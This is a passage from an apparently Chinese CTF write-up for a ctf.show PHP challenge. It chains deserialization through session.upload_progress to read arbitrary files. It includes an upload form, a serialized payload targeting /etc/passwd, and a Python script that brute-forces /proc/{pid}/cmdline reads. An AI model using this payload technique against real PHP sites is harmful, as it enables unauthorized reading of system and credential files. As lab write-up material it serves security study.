pop链构造完成后，这个时候我们需要从浏览器向服务器上传文件。

因为`session.upload_progress.cleanup`为off，我们不需要条件竞争

直接构造上传表单

```php
<form action="http://1bd48b1f-459e-411c-adcf-81a7167b60d5.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
        <input type="hidden" name='PHP_SESSION_UPLOAD_PROGRESS' value="123" />
        <input type="file" name="file" />
        <input type="submit" />
</form>
```

然后抓包，将filename参数修改为：

得到的反序列化需要将双引号转义，然后再前面加个`|`（这是由session处理器session.serialize_handler决定的）

```
|O:5:\"Happy\":1:{s:5:\"happy\";O:5:\"_New_\":3:{s:5:\"daniu\";O:5:\"_New_\":3:{s:5:\"daniu\";O:4:\"Year\":1:{s:6:\"zodiac\";N;}s:5:\"robot\";s:6:\"zodiac\";s:8:\"notrobot\";s:11:\"/etc/passwd\";}s:5:\"robot\";N;s:8:\"notrobot\";N;}}
```

将序列化值上传到服务器，储存在session中，index中的session_start()触发了，构成一个`任意文件读取漏洞`。



在linux中，/proc/{pid}/cmdline所有用户都可以读取，查看cmdline目录获取启动指定进程的完整命令

直接上脚本爆破

```python
import requests
import time


def get_file(filename):
	data="""------WebKitFormBoundarytyYa582A3zCNLMeL
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

123
------WebKitFormBoundarytyYa582A3zCNLMeL
Content-Disposition: form-data; name="file"; filename="|O:5:\\"Happy\\":1:{s:5:\\"happy\\";O:5:\\"_New_\\":3:{s:5:\\"daniu\\";O:5:\\"_New_\\":3:{s:5:\\"daniu\\";O:4:\\"Year\\":1:{s:6:\\"zodiac\\";N;}s:5:\\"robot\\";s:6:\\"zodiac\\";s:8:\\"notrobot\\";s:"""+str(len(filename))+""":\\\""""+filename+"""\\";}s:5:\\"robot\\";N;s:8:\\"notrobot\\";N;}}\"
Content-Type: text/plain


------WebKitFormBoundarytyYa582A3zCNLMeL--"""
	r=requests.post(url='http://32c5b7fa-ed9f-46f9-9c1d-28d49508feb7.challenge.ctf.show/',data=data,headers={'Content-Type':'multipart/form-data; boundary=----WebKitFormBoundarytyYa582A3zCNLMeL','Cookie': 'PHPSESSID=917571d70a5c49843a1625b52880d774'})
	return(r.text.encode()[1990:])#去掉源码信息，encode是为了能显示\00

for i in range(999):
	print(i)
	print(get_file('/proc/'+str(i)+'/cmdline'))
	time.sleep(0.2)

```
